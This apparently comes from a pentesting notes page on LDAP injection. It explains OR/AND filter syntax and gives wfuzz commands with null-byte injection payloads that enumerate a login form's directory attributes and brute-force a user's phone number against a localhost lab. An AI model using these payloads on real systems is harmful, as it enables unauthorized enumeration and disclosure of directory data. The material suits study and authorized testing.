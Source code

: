 
Or you can put two possibilities of search

````bash
(|
    (&
        (cn=admin)
        (age=15)
    )

    (&
        (cn=admin)
        (rol=pentester)
    )
)
````

Here you say, the user is admin and age is 15 years or the user is admin and the rol is pentester

---

# Enumerate attributes

````bash
(&
    (cn=admin)
    (FUZZ=*))%00
    (userPassword=*)
)
````

With wfuzz we can enumerate the names of attributes (you can use this wordlist: /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt )

You are going to search attribute available for the user admin, like phoneNumber,mail...

````bash
wfuzz -c --hh=550 -w /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888
````

`--hh=550` --> Hide all the response that have 550 characters


or if you want to search the attribute for all the user:

````bash
wfuzz -c --hh=550 -w /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=*&login=1&submit=Submit' http://localhost:8888
````

## See the attribute

### enum phoneNumber

````bash
wfuzz -c --hh=550 -z range,0-9 -d 'user_id=sergiky)(telephoneNumber=FUZZ*))%00&password=*&login=1&submit=Submit' http://localhost:8888
````
